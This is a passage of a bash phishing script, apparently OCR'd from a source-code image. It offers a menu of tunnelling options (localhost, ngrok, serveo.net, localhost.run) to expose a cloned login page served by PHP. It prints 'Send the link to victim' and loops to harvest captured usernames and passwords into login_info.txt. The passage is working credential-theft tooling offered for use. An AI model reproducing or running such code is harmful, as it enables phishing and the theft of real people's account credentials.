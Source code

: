 \e[1;31m[\e[0m\e[1;77m01\e[0m\e[1;31m]\e[0m\e[1;92m LocalHost\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m02\e[0m\e[1;31m]\e[0m\e[1;92m Ngrok.io\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m03\e[0m\e[1;31m]\e[0m\e[1;92m Serveo.net\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m04\e[0m\e[1;31m]\e[0m\e[1;92m Localhost.run\e[0m\n" d_o_server="2" printf "\n" read -p $' \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Select a Port Forwarding option: \e[0m\e[1;91m\en' option_server option_server="${option_server:-${d_o_server}}" if [[ $option_server == 3 || $option_server == 03 ]]; then start_s elif [[ $option_server == 2 || $option_server == 02 ]]; then start_n elif [[ $option_server == 4 || $option_server == 04 ]]; then start_local elif [[ $option_server == 1 || $option_server == 01 ]]; then start_l else printf " \e[1;91m[\e[0m\e[1;97m!\e[0m\e[1;91m]\e[0m\e[1;92m Invalid option \e[1;91m[\e[0m\e[1;97m!\e[0m\e[1;91m]\e[0m\n" sleep 1 banner start fi } start_s() { if [[ -e websites/$server/ip.txt ]]; then rm -rf websites/$server/ip.txt fi if [[ -e websites/$server/usernames.txt ]]; then rm -rf websites/$server/usernames.txt fi def_port="5555" printf "\e[0m\n" printf ' \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Select a Port (Default:\e[0m\e[1;91m %s \e[0m\e[1;34m): \e[0m\e[1;91m' $def_port read port port="${port:-${def_port}}" start_serveo } start_serveo() { printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Initializing...\e[0m\e[1;34m(\e[0m\e[1;91mlocalhost:$port\e[0m\e[1;34m)\e[0m\n" cd websites/$server &amp;&amp; php -S 127.0.0.1:$port > /dev/null 2>&amp;1 &amp; sleep 2 printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Launching Serveo ..\e[0m\n" if [[ -e linksender ]]; then rm -rf linksender fi $(which sh) -c 'ssh -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -R 80:localhost:'$port' serveo.net 2> /dev/null > linksender ' &amp; printf "\n" sleep 7 send_url=$(grep -o "https://[0-9a-z]*\.serveo.net" linksender) printf "\n" printf ' \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;91m Send the link to victim :\e[0m\e[1;92m %s \n' $send_url printf "\n" found } start_n() { if [[ -e websites/$server/ip.txt ]]; then rm -rf websites/$server/ip.txt fi if [[ -e websites/$server/usernames.txt ]]; then rm -rf websites/$server/usernames.txt fi if [[ -e ngrok ]]; then echo "" else printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Initializing...\e[0m\e[1;93m(\e[0m\e[1;91mlocalhost:5555\e[0m\e[1;93m)\e[0m\n" arch=$(uname -a | grep -o 'arm' | head -n1) arch2=$(uname -a | grep -o 'Android' | head -n1) if [[ $arch == *'arm'* ]] || [[ $arch2 == *'Android'* ]] ; then curl -LO https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-arm.zip > /dev/null 2>&amp;1 if [[ -e ngrok-stable-linux-arm.zip ]]; then unzip ngrok-stable-linux-arm.zip > /dev/null 2>&amp;1 chmod +x ngrok rm -rf ngrok-stable-linux-arm.zip else printf " \e[1;31m[\e[0m\e[1;77m!\e[0m\e[1;31m]\e[0m\e[1;92m Error \e[1;31m[\e[0m\e[1;77m!\e[0m\e[1;31m]\e[0m\e[1;91m Please Install All Packges.\e[0m\n" exit 1 fi else curl -LO https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-386.zip > /dev/null 2>&amp;1 if [[ -e ngrok-stable-linux-386.zip ]]; then unzip ngrok-stable-linux-386.zip > /dev/null 2>&amp;1 chmod +x ngrok rm -rf ngrok-stable-linux-386.zip else printf " \e[1;31m[\e[0m\e[1;77m!\e[0m\e[1;31m]\e[0m\e[1;92m Error \e[1;31m[\e[0m\e[1;77m!\e[0m\e[1;31m]\e[0m\e[1;91m Please Install All Packges.\e[0m\n" exit 1 fi fi fi printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Launching Ngrok ..\e[0m\n" cd websites/$server &amp;&amp; php -S 127.0.0.1:5555 > /dev/null 2>&amp;1 &amp; sleep 2 ./ngrok http 5555 > /dev/null 2>&amp;1 &amp; sleep 10 link=$(curl -s -N http://127.0.0.1:4040/api/tunnels | grep -o "https://[0-9a-z]*\.ngrok.io") printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;91m Send the link to victim :\e[0m\e[1;92m %s \n" $link found } start_local(){ def_port="5555" printf "\e[0m\n" printf ' \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Select a Port (Default:\e[0m\e[1;91m %s \e[0m\e[1;93m): \e[0m\e[1;91m' $def_port read port port="${port:-${def_port}}" printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Initializing...\e[0m\e[1;94m(\e[0m\e[1;91mlocalhost:$port\e[0m\e[1;93m)\e[0m\n" cd websites/$server &amp;&amp; php -S 127.0.0.1:$port > /dev/null 2>&amp;1 &amp; sleep 2 printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Launching LocalHostRun ..\e[0m\n" printf "\n" if [[ -e linksender ]]; then rm -rf linksender fi printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;91m Ctrl + C to view Login Info.Press it After the Victim Opened It.\e[0m\n" printf "\e[1;93m\n" ssh -R 80:localhost:$port ssh.localhost.run 2>&amp;1 printf "\e[0m\n" printf "\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;92m Login Info..\e[0m\n" while [ true ]; do if [[ -e "websites/$server/ip.txt" ]]; then c_ip rm -rf websites/$server/ip.txt fi sleep 0.75 if [[ -e "websites/$server/usernames.txt" ]]; then account=$(grep -o 'Username:.*' websites/$server/usernames.txt | cut -d " " -f2) IFS=$'\n' password=$(grep -o 'Pass:.*' websites/$server/usernames.txt | cut -d ":" -f2) printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Account:\e[0m\e[1;91m %s\n\e[0m" $account printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;93m Password:\e[0m\e[1;91m %s\n\e[0m" $password cat websites/$server/usernames.txt >> websites/$server/login_info.txt printf "\e[0m\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;91m Saved:\e[0m\e[1;92m websites/%s/login_info.txt\e[0m\n" $server printf "\n" printf " \e[1;31m[\e[0m\e[1;77m~\e[0m\e[1;31m]\e[0m\e[1;91m Press Ctrl + C to exit.\e[0m\n" rm -rf websites/$server/usernames.txt fi sleep 0.75 done } start_l() { def_port="5555" printf "\e[0m\n" printf '